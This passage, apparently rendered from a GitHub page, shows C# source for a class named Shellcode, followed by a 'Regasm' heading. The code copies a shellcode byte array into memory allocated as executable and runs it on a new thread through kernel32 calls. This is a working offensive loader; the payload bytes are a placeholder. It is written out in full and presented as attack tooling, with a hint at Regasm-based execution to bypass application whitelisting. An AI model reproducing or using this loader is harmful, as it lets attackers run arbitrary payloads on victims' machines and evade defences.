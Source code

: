 ```csharp
}
}
public class Shellcode
{
public static void Exec()
{
byte[] shellcode = new byte[510] {
 SHELLCODE
};
UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode .Length,
MEM_COMMIT, PAGE_EXECUTE_READWRITE);
Marshal.Copy(shellcode , 0, (IntPtr)(funcAddr), shellcode .Length);
IntPtr hThread = IntPtr.Zero;
UInt32 threadId = 0;
IntPtr pinfo = IntPtr.Zero;
hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
WaitForSingleObject(hThread, 0xFFFFFFFF);
}
private static UInt32 MEM_COMMIT = 0x1000;
private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
[DllImport("kernel32")]
private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,UInt32 size, UInt32 flAllocationType, UInt32 flProtect);
[DllImport("kernel32")]
private static extern bool VirtualFree(IntPtr lpAddress,
UInt32 dwSize, UInt32 dwFreeType);
[DllImport("kernel32")]
private static extern IntPtr CreateThread(
UInt32 lpThreadAttributes,
UInt32 dwStackSize,
UInt32 lpStartAddress,
IntPtr param,
UInt32 dwCreationFlags,
ref UInt32 lpThreadId
);
[DllImport("kernel32")]
private static extern bool CloseHandle(IntPtr handle);
[DllImport("kernel32")]
private static extern UInt32 WaitForSingleObject(
IntPtr hHandle,
UInt32 dwMilliseconds
);
[DllImport("kernel32")]
private static extern IntPtr GetModuleHandle(
string moduleName
);
[DllImport("kernel32")]
private static extern UInt32 GetProcAddress(
IntPtr hModule,
string procName
);
[DllImport("kernel32")]
private static extern UInt32 LoadLibrary(
string lpFileName
);
[DllImport("kernel32")]
private static extern UInt32 GetLastError();
}

```
  #### Regasm
